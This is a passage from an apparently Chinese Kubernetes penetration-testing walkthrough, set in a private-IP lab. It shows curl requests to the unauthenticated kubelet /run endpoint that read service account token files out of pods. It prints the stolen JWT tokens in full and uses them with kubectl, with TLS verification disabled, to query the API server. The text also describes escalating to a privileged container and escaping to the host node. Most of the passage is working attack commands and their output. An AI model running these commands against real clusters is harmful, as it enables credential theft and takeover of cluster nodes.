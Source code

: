 ```plain
curl -XPOST -k "https://192.168.108.102:10250/run/default/nginx-6867cdf567-9sv8d/nginx" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
```

[![](assets/1701678402-0a58b5da0a6bab4a006ba62c41580631.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190920-e8dbaa3c-8f70-1.png)  
如果挂载到集群内的token具有创建pod的权限，可以通过token访问集群的api创建特权容器，然后通过特权容器逃逸到宿主机，从而拥有集群节点的权限,这里类似于我们的横向渗透

```plain
kubectl --insecure-skip-tls-verify=true --server="https://192.168.108.100:6443" --token="eyJhbGciOiJSUzI1NiIsImtpZCI6IlQzZUZucGJJbmtHUVJTTVNWZE4yRlFaYlMwQU5Vb3RyZzAzNUZhbUZGNFEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImRlZmF1bHQtdG9rZW4tOXJ0Z3YiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiZGVmYXVsdCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjE1NzdiNWYxLTMxMjQtNDg2NS1iZDBkLWY4OTc4N2U1MzM3ZSIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.xRU5DY0YZx9QAVw9qnbb6RMWb_9oYv0W5OjVHasmFtCpIPI5Hg2NNf6pRXtsDZc4XomqXRpPdF5YTnnxwa7pOL6Sy0RzBQYDoirMsc1qoW6wsI9YlO8hEf73aTXIDP9QwnwNn2UWktkYkXyiPiDPHd5G64WXqyKg0apW-HcgLYzrmwII2fy6OJYOJJQFwdebrWlgshPhAoT-GTs3KRHRGfJsDHJ6zC0mIXwxthDz1HSI4pxX-v4wmq3R0UYx5Nr-yKhHMgzKjZqoX_xzZXCcRbvXm3yL5-UqKd_zTMX4r9SD93VS-eNKwZC9fnhN8Ey9jXY3NNazsHG9PSJsAwtfTA" get pods
```

[![](assets/1701678402-2105205b7ef2576ebad45d3b7834a382.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190920-e8fe07ee-8f70-1.png)  
报错是

```plain
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:default:default" cannot list resource "pods" in API group "" in the namespace "default"
```

我们上述讲到了，需要获取的token有创建权限，这里的报错是因为我们的token没有创建权限，尝试换一个

```plain
curl -XPOST -k "https://192.168.108.102:10250/run/kube-system/kube-proxy-l2psz/kube-proxy" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
#得到的token
eyJhbGciOiJSUzI1NiIsImtpZCI6IlQzZUZucGJJbmtHUVJTTVNWZE4yRlFaYlMwQU5Vb3RyZzAzNUZhbUZGNFEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJrdWJlLXByb3h5LXRva2VuLTJidzhsIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6Imt1YmUtcHJveHkiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiJkNGExYWViOS04ZWUxLTQ0NzktODlhZi01OGFlYTEyZWM1NjQiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06a3ViZS1wcm94eSJ9.p5hlTUIYMIfjVNey6g8e4lYAnlB9Jae2d8A4hxLenGGUuyjkHbu8W7z9E7HZ9IEvzVjd8eQFv8_NGTGjTNL8qbRX6nszqg0DS5ABp5ZHHWiYSTD1222etxmi-BN4Qu296PzGG_Udr64cJkRsztJ1PkDrsrGndwWwsds5qzDGlZEgvyrt9Farlo3NyBTjNCU7hdDthBmjFq0Gqufkw-BNb88s0JgkmEx-fs7p2wPwk2nEKstC8f2ARRZx75PCMS-pLEUGHpphLKDAP1O08pwO3JzhZrc3LJpPB-0XPayNQiPYgJjshttV7ICV3FiTGoiP2H_UeyLtytzfXgIk9eX5jA
#
kubectl --insecure-skip-tls-verify=true --server="https://192.168.108.100:6443" --token="eyJhbGciOiJSUzI1NiIsImtpZCI6IlQzZUZucGJJbmtHUVJTTVNWZE4yRlFaYlMwQU5Vb3RyZzAzNUZhbUZGNFEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJrdWJlLXByb3h5LXRva2VuLTJidzhsIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6Imt1YmUtcHJveHkiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiJkNGExYWViOS04ZWUxLTQ0NzktODlhZi01OGFlYTEyZWM1NjQiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06a3ViZS1wcm94eSJ9.p5hlTUIYMIfjVNey6g8e4lYAnlB9Jae2d8A4hxLenGGUuyjkHbu8W7z9E7HZ9IEvzVjd8eQFv8_NGTGjTNL8qbRX6nszqg0DS5ABp5ZHHWiYSTD1222etxmi-BN4Qu296PzGG_Udr64cJkRsztJ1PkDrsrGndwWwsds5qzDGlZEgvyrt9Farlo3NyBTjNCU7hdDthBmjFq0Gqufkw-BNb88s0JgkmEx-fs7p2wPwk2nEKstC8f2ARRZx75PCMS-pLEUGHpphLKDAP1O08pwO3JzhZrc3LJpPB-0XPayNQiPYgJjshttV7ICV3FiTGoiP2H_UeyLtytzfXgIk9eX5jA" get pods
```
